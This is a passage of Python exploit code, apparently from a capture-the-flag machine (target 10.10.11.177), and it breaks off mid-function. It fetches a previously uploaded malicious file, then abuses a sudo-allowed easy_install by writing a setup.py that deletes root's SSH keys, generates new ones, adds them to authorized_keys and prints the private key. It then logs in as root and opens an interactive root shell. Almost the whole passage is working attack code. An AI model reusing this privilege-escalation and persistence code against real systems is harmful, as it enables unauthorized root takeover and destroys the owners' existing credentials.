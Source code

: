 ```python

			for md5_directory in md5_directories:
				upload_url = self.target_url + f'/uploads/{md5_directory.string}/{self.malicious_file}'
				
				response = requests.get(upload_url, headers=headers)

				if 'Not Found' in response.text:
					continue
				break

			return self.output_command(response.text)

		except Exception as error:
			sys.exit('\n[x] Error: %s' % error)

	def interactive_shell(self, connection):
		command = "mkdir /tmp/.privesc"
		_ = self.execute_command(connection, command)

		command = "echo \"__import__('os').system('rm /root/.ssh/id_rsa*')\" > /tmp/.privesc/setup.py"
		_ = self.execute_command(connection, command)

		command = "echo \"__import__('os').system('ssh-keygen -q -t rsa -f /root/.ssh/id_rsa -N \\\"\\\"')\" >> /tmp/.privesc/setup.py"
		_ = self.execute_command(connection, command)

		command = "echo \"__import__('os').system('cat /root/.ssh/id_rsa.pub > /root/.ssh/authorized_keys && cat /root/.ssh/id_rsa')\" >> /tmp/.privesc/setup.py"		
		_ = self.execute_command(connection, command)
		
		command = "sudo /usr/local/bin/easy_install -q /tmp/.privesc 2>/dev/null"
		id_rsa_output = self.execute_command(connection, command)

		private_key_name = 'id_rsa_root'
		self.create_file(private_key_name, id_rsa_output)
		log.info(f'Root id_rsa: ./{private_key_name}')
		
		root_client = self.ssh_connection('root', private_key_name)
		log.success('Successful ssh connection')

		_ = self.execute_command(root_client, 'rm -r /tmp/.privesc')
		
		print()
		while True:
			cmd = raw_input('~# ')
			output_command = self.execute_command(root_client, cmd)
			print(output_command)

	def execute_command(self, connection, command):
		_stdin, _stdout, _stderr = connection.exec_command(command)
		output_command = _stdout.read().decode()
		
		return output_command

	def ssh_connection(self, ssh_username, private_key_name):
		target_host = '10.10.11.177'
		ssh_private_key = paramiko.RSAKey.from_private_key_file(f"./{private_key_name}")

		try:
			client = paramiko.SSHClient()
			client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
```